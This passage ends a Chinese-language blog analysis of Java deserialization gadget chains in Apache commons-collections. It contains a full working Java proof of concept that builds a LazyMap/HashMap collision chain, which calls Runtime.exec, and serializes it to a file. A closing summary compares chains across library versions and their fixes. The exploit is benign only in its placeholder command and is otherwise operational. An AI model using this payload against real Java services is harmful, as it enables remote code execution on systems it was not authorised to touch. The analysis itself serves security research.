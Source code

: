 ```java
        Transformer[] fake = new Transformer[]{
                new ConstantTransformer("placeholder"),
        };

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(java.lang.Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[]{}}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{}}),
                new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{new String[]{"/bin/touch", "/dev/shm/asdasd_1"}}),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(fake);

        HashMap innerMap1 = new HashMap<String, String>();
        innerMap1.put("yy", "1"); // "yy".hashCode() == "zZ".hashCode() == 3872
        HashMap innerMap2 = new HashMap<String, String>();
        innerMap2.put("zZ", "1");

        LazyMap lazyMap1 = (LazyMap) LazyMap.decorate(innerMap1, chainedTransformer);
        LazyMap lazyMap2 = (LazyMap) LazyMap.decorate(innerMap2, chainedTransformer);

        HashMap hashMap = new HashMap();
        hashMap.put(lazyMap1, "placeholder");
        hashMap.put(lazyMap2, "placeholder");

        innerMap1.remove("zZ"); // 在 put 的时候产生碰撞, 根据上面的分析调用 LazyMap.get, LazyMap 会将结果存入 innerMap 中缓存, 所以这里需要将其清除, 否则 hashcode 就不一样了 

        Field field = chainedTransformer.getClass().getDeclaredField("iTransformers"); // 同上, 将真正的 transformers 设置, 不然在生成 exp 时就会执行命令, 自己打自己了
        field.setAccessible(true);
        field.set(chainedTransformer, transformers);

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(hashMap);
    }
}
```

## 总结

可以看到这些 chain 最后均需要经过 InvokerTransformer 或者 InstantiateTransformer. commons-collections 的修复也是着力于重点, 直接 ban 掉这两个类的 readObject, 一劳永逸.  
而这些中对于 commons-collections4, 比较实用的是 CommonsCollections2, CommonsCollections4. 对于 commons-collections3, 为 CommonsCollections6, CommonsCollections7. 利用能否成功只与 commons-collections 自身的版本有关, 而与 jre 的版本没有太大关系, 只要不要是远古版本即可. 而且实际上不少 chain 是两者都通用的, 只不过 ysoserial 没有编写, 只需要稍稍修改就行.  
